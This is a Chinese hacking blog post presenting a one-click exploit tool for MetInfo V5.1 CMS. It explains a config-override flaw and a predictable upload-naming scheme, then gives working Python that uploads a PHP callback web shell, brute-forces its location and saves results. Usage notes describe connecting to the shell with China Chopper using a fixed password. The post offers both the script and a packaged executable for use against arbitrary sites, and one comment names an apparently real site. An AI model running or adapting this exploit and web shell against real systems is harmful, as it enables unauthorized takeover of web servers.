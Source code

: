 ```yaml
---
title: MetInfo V5.1 GetShell一键化工具
slug: MetInfo-V5-1-GetShell
date: 2016-06-08 22:40:32
categories: 
- Hacker
tags: 
- Hacker
- Tools
---
```


----------
# 漏洞解析：
----------
**config/config.inc.php**

```php
$langoks = $db->get_one("SELECT * FROM $met_lang WHERE lang='$lang'");

if(!$langoks)die('No data in the database,please reinstall.');

if(!$langoks[useok]&&!$metinfoadminok)okinfo('../404.html');

if(count($met_langok)==1)$lang=$met_index_type;

$query = "SELECT * FROM $met_config WHERE lang='$lang' or lang='metinfo'";//看这里

$result = $db->query($query);

while($list_config= $db->fetch_array($result)){

	if($metinfoadminok)$list_config['value']=str_replace('"', '&#34;', str_replace("'", '&#39;',$list_config['value']));

	$settings_arr[]=$list_config;

	if($list_config['columnid']){

		$settings[$list_config['name'].'_'.$list_config['columnid']]=$list_config['value'];

	}else{

		$settings[$list_config['name']]=$list_config['value'];

	}

}

@extract($settings);
```
----------
<!--more-->
访问

http:///localhost/metinfo5.1/index.php?lang=metinfo

`SELECT * FROM met_config WHERE lang='metinfo' or lang='metinfo'`

----------
## 文件命名方式：
----------
**/feedback/uploadfile_save.php**
```php
srand((double)microtime() * 1000000);

$rnd = rand(100, 999);

$name = date('U') + $rnd;

$name = $name.".".$ext;

```
**文件保存在/upload/file/目录**

命名方式就是时间戳去掉后三位，紧接着一个三位数的随机数

可爆破：

如

http://127.0.0.1/upload/file/1465394396.php

----------

# 一键化利用工具：

----------

**本程序基于python编写**

```python
#!/usr/bin/env python
#-*- coding: utf-8 -*-

import requests
import Queue
import threading
import time
import sys


headers = {'User-Agent':'Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2743.10 Safari/537.36'}

urls = Queue.Queue()
#http://hb.jhxjd.com/upload/file/1441445378.php

def bp(urls,time_out):
    while not urls.empty():
        base_url = urls.get()
        response = None

        try:
            time.sleep(int(time_out))#延时设置
            response = requests.get(base_url,headers=headers)
            if response.status_code == 404:
                print 'Not Fount----%s\n' % base_url
        except:
            continue
        finally:
            if response:
                with open('url.txt','a+') as f:
                    f.write('%s?e=YXNzZXJ0\n'%base_url)

def main(target_url,thread_num,time_out):

    #取出当前时间戳并删除后四位
    now = str(int(time.time()))[:-4]

    #将所有的待爆破地址遍历并加入队列
    for i in range(0,10):
        for j in range(100,1000):
            num_str = ''.join((str(i),str(j)))
            url = ''.join(('%s/upload/file/%s' % (target_url,now),num_str,'.php'))
            urls.put(url)

    #上传文件
    with open('xiaoma.php','w+') as fi:
        fi.write("<?php $e = $_REQUEST['e'];register_shutdown_function(base64_decode($e), $_REQUEST['Akkuman']);?>")
    data = {
            'fd_para[1][para]':'filea',
            'fd_para[1][type]':'5'
            }
    files = {'filea': open("xiaoma.php", 'rb')}
    upload_url = '%s/feedback/uploadfile_save.php?met_file_format=pphphp&met_file_maxsize=9999&lang=metinfo' % target_url
    res = requests.post(upload_url,data = data,files=files)
    #等待两秒  文件上传
    time.sleep(2)




    #启动多线程
    for i in range(int(thread_num)):
        t = threading.Thread(target = bp,args=(urls,time_out,))
        t.start()


if __name__ == '__main__':
    if len(sys.argv) != 4:
        print 'Example : %s http://www.xxx.com 20 0' % sys.argv[0]
    else:
        main(sys.argv[1],sys.argv[2],sys.argv[3])

```

程序略显粗糙

为了方便，我也把他打包成了**exe**

然后闲着没事，想着简单地给他做了个**界面**,这样的
![GUI](/images/uploads/467265555564577246543847664e6d7366696739786c37515370714d.png)

----------
# 文件说明
----------
> MetInfo V5.1上传漏洞getshell利用工具

> 	作者 : Akkuman

> 漏洞原理详见http://www.wooyun.org/bugs/wooyun-2010-0139168

> 使用说明：
> 本目录有两个文件，一个py，一个exe
> 因为exe是py文件打包而成，故文件较大
> 64位系统测试使用通过
> 
> 如果你安装了py2.x环境  py文件使用方法
> 打开cmd
> python baopo.py http://www.xxx.com 20 0
> 20是线程数，0是每次请求等待时间（网站限制时可设置为2或3）可以自己指定
> 
> exe命令行文件使用方法
> 打开cmd
> baopo.exe http://www.xxx.com 20 0
> 20是线程数，0是每次请求等待时间（网站限制时可设置为2或3）可以自己指定
> 
> GUI程序，应该不用说
> 
> 关于getshell与结果
> 上传的是回调一句话木马
> ```php
> <?php >$e=$_REQUEST['e'];register_shutdown_function(base64_decode($e),$_>REQUEST['Akkuman']);?>
> ```
> 菜刀连接，密码是Akkuman
> 
> 爆破结果会生成在**url.txt**

----------
# 下载地址：
----------
[(访问码:1475)](http://cloud.189.cn/t/v263QbMJVJ3u )

*转载请注明出处*

*作者博客 www.hacktech.cn*
